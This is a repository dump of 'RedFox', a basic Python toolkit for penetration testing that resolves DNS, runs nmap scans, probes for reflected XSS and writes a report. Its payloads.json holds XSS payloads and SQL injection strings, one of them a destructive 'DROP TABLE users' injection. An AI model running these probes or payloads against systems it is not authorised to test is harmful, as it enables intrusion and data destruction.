 Repository: windro-exe/redfox
Files analyzed: 8

Estimated tokens: 696

Directory structure:
└── windro-exe-redfox/
    ├── README.md
    ├── main.py
    ├── core/
    │   ├── exploit.py
    │   ├── recon.py
    │   ├── report.py
    │   └── scanner.py
    ├── data/
    │   └── payloads.json
    └── utils/
        └── helpers.py


================================================
FILE: README.md
================================================
# RedFox - Offensive Security Toolkit

RedFox is a modular Python tool for automating recon, scanning, and basic exploitation tasks during offensive security engagements.

## Features
- Subdomain and DNS recon
- Nmap port scanning
- Basic XSS testing
- Report generation

## Usage
```bash
python main.py
```

Ensure `nmap` is installed on your system.



================================================
FILE: main.py
================================================
from core import recon, scanner, exploit, report

def main():
    print("Welcome to RedFox - Offensive Security Toolkit")
    target = input("Enter target URL or IP: ")
    recon.run_recon(target)
    scanner.run_scan(target)
    exploit.run_exploit(target)
    report.generate_report(target)

if __name__ == "__main__":
    main()



================================================
FILE: core/exploit.py
================================================
import requests

def run_exploit(target):
    print(f"[+] Testing for basic XSS on {target}")
    try:
        xss_test = "<script>alert(1)</script>"
        response = requests.get(target, params={"q": xss_test})
        if xss_test in response.text:
            print("[!] XSS vulnerability detected!")
        else:
            print("[-] No basic XSS detected.")
    except Exception as e:
        print(f"[-] Exploit test failed: {e}")



================================================
FILE: core/recon.py
================================================
import socket
import requests

def run_recon(target):
    print(f"[+] Running recon on {target}")
    try:
        ip = socket.gethostbyname(target)
        print(f"[+] Resolved IP: {ip}")
    except Exception as e:
        print(f"[-] Failed to resolve IP: {e}")



================================================
FILE: core/report.py
================================================
def generate_report(target):
    print(f"[+] Generating report for {target}")
    with open(f"{target.replace('.', '_')}_report.txt", "w") as f:
        f.write("RedFox Security Report\n")
        f.write(f"Target: {target}\n")
        f.write("Scan completed. See terminal output for details.\n")



================================================
FILE: core/scanner.py
================================================
import subprocess

def run_scan(target):
    print(f"[+] Scanning target: {target}")
    try:
        subprocess.run(["nmap", "-T4", "-F", target])
    except Exception as e:
        print(f"[-] Scan failed: {e}")



================================================
FILE: data/payloads.json
================================================
{
    "xss": ["<script>alert(1)</script>", "<img src=x onerror=alert(1)>"],
    "sqli": ["' OR '1'='1", "'; DROP TABLE users; --"]
}



================================================
FILE: utils/helpers.py
================================================
def print_banner():
    print("""
    ==============================
    RedFox Offensive Toolkit
    ==============================
    """)


